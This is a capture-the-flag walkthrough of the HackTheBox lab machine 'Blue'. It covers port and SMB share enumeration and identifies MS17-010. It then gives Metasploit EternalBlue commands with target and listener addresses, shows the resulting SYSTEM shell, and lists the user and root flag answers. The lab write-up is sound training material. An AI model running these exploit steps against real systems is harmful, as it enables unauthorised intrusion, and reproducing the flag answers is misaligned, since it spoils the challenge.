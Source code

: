 
# HackTheBox Walkthrough - Machine: Blue

**Target IP**: 10.129.114.255  
**Difficulty**: Easy  
**Objective**: Exploit SMB vulnerability (MS17-010) to gain system access and retrieve user and root flags.

---

## 🧭 Enumeration

### 🔍 Task 1: How many open TCP ports are listening on Blue?  
**Answer**: `3`  
> Exclude 5-digit ephemeral ports  
```bash
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
```

---

### 🔍 Task 2: What is the hostname of Blue?  
**Answer**: `HARIS-PC`  
> Found in Nmap Service Info

---

### 🖥️ Task 3: What operating system is running on the target machine?  
**Answer**: `windows 7`  
> From Nmap: `Windows 7 Professional 7601 Service Pack 1`

---

### 📁 Task 4: How many SMB shares are available on Blue?  
**Answer**: `5`  
```bash
smbclient -L 10.129.114.255
```
```
ADMIN$  
C$  
IPC$  
Share  
Users
```

---

### 🛡️ Task 5: What 2017 Microsoft Security Bulletin describes SMB RCE?  
**Answer**: `MS17-010`

---

### 🐛 Task 6 (Optional): Famous malware using MS17-010?  
**Answer**: `WannaCry`

---

### 💥 Task 7: What user do you get execution with when exploiting MS17-010?  
**Answer**: `NT AUTHORITY\SYSTEM`  
> Obtained via Metasploit EternalBlue module:
```bash
search eternalblue
use 0
set RHOSTS 10.129.114.255
set LHOST 10.10.14.99
run
```
> Meterpreter output:
```bash
getuid
Server username: NT AUTHORITY\SYSTEM
```

---

## 🧑‍💻 Submit User Flag  
**Flag Path**: `C:\Users\haris\Desktop\user.txt`  
**Answer**: `a4498ab0e70b149c6712ea6e0a72c6bd`

---

## 👑 Submit Root Flag  
**Flag Path**: `C:\Users\Administrator\Desktop\root.txt`  
**Answer**: `cf8f5445e61e74896492921825beb086`

---

